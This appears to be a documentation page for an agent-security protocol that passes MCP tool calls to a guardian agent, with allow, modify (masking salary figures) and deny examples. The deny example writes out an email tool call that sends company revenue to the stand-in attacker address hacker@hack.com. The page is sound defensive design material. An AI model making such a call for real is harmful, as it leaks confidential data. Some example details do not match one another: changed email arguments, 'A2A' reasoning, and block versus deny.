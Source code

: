 # Extending MCP

## MCP protocol
The Model Context Protocol ([MCP](https://modelcontextprotocol.io/introduction)) is an open standard that simplifies how AI models, particularly Large Language Models (LLMs) and agents, interact with external data sources, tools, and APIs. It's designed to provide a standardized way for AI agents to connect with the real world, making it easier to build AI applications that can access and use external information.<br><br>
MCP is gaining popularity world-wide and is being adopted and integrated almost everywhere, security and observability must be implemented to prevent unwanted bad consequences.<br>
In the same manner as AOS standardize security for non-standardize access and use of tools and data, it also extends MCP protocol to allow secure usage and implement security controls.

## MCP support

AOS extension for MCP is used as a **transport** for MCP communications between the agent and the guardian agent. Meaning AOS understands and delivers MCP message as is.<br>
Securing MCP means securing outbound and inbound communications/messages from the agent (using MCP client) to the MCP server and vice versa.<br> 

#### To extend MCP protocol:
1. Agents using MCP ***must*** use AOS as a transport protocol to deliver MCP messages to the guardian agent.
2. Agents using MCP ***must*** understand and enforce AOS responses.

#### The following flow explains how this should be done:
1. Agent **A** prepares (using MCP client) MCP-compliant message.
2. Agent **A** uses AOS as a transport to send the message to the guardian agent.
3. The guardian agent understands and processes the MCP transported message and send the result back to agent **A**.
4. Agent **A** interprets and enforces the response from guardian agent.
5. In case response is `allow`, agent **A** sends the MCP message to MCP server.
6. MCP server processes the message and sends back to agent **A** the response.
7. Agent **A** uses AOS as a transport to send the MCP response to the guardian agent.
8. The guardian agent understands and processes the MCP transported response and send the result back to agent **A**.
9. Agent **A** interprets and enforces the response from guardian agent.

## Examples
### Scenario: Agent **A** asks MCP server for the weather and guardian agent respond with allow
#### 1. Agent **A** prepares MCP `tools/call` message 

   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "city": "Barcelona"
       },
       "name": "get_weather"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 

   ```json
    {
        "jsonrpc": "2.0",
        "id": 70,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "city": "Barcelona"
            },
            "name": "get_weather"
            }
        }
    }
   ```

#### 3. Guardian agent sends `allow` response to agent **A**

   ```json
        {
        "jsonrpc": "2.0",
        "id": 70,
        "result": {
            "decision": "allow",
            "message": "Allow tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking the weather. Nothing suspicious here."
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data and guardian agent respond with modify
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hr@company.io",
           "subject": "",
           "body": ""
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message
   ```json
    {
        "jsonrpc": "2.0",
        "id": 80,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "to": "finance@company.io",
                "from": "manager@company.io",
                "subject": "Employee Salary Raise Request",
                "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is 200000$, the requested salary is 300000$. Let's have a meeting discuss this."
            },
            "name": "send_email"
            }
        }
    }
   ```

#### 3. Guardian agent sends `modify` response to agent **A**
   ```json
        {
        "jsonrpc": "2.0",
        "id": 80,
        "result": {
            "decision": "modify",
            "message": "Modified data for tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking to send an email with sensitive info, I need to mask it first.",
            "modifiedRequest": {
                "jsonrpc": "2.0",
                "id": 80,
                "method": "protocols/MCP",
                "params": {
                    "jsonrpc": "2.0",
                    "id": 1,
                    "method": "tools/call",
                    "params": {
                    "arguments": {
                        "to": "finance@company.io",
                        "from": "manager@company.io",
                        "subject": "Employee Salary Raise Request",
                        "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is **********$, the requested salary is **********$. Let's have a meeting discuss this."
                    },
                    "name": "send_email"
                    }
                }
            }
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data to an outsider and guardian agent respond with deny
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hacker@hack.com",
           "subject": "Financial info",
           "body": "The ARR for the company for year 2024 was 100000000000$ "
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 100,
     "method": "protocols/MCP",
     "params": {
        "jsonrpc": "2.0",
        "id": 1,
        "method": "tools/call",
        "params": {
        "arguments": {
            "to": "hacker@hack.com",
            "subject": "Financial info",
            "body": "The ARR for the company for year 2024 was 100000000000$ "
        },
        "name": "send_email"
        }
   }
   }
   ```

#### 3.Guardian agent sends `block` response to agent **A**
   ```json
    {
        "jsonrpc": "2.0",
        "id": 100,
        "result": {
            "decision": "deny",
            "message": "Deny message/send.",
            "reasoning": "This is A2A message. I recognize disallowed content."
        }
    }
   ```  
